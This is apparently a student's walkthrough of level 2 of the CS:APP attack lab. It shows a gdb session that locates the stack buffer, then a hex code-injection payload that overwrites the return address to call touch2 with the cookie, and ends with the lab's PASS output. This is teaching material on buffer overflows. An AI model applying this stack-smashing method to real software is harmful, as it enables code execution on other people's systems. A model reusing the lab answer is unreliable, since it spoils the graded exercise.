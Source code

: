```x86asm
➜  target1 git:(master) ✗ gdb ctarget
GNU gdb (Debian 8.1-4+b1) 8.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ctarget...done.
(gdb) break getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) run -q
Starting program: /home/xieyiyu95/csapp-labs/attacklab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) ni
14      in buf.c
(gdb) print /x $rsp
$1 = 0x5561dc78
```

缓冲区地址是 `0x5561dc78`，和第一关一样，把这个地址放到 41 到 44 个字节。

```
bf fa 97 b9 59 68 ec 17 40 00
c3 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

![](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543732584.png)

```sh
➜  target1 git:(master) ✗ cat level2 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```
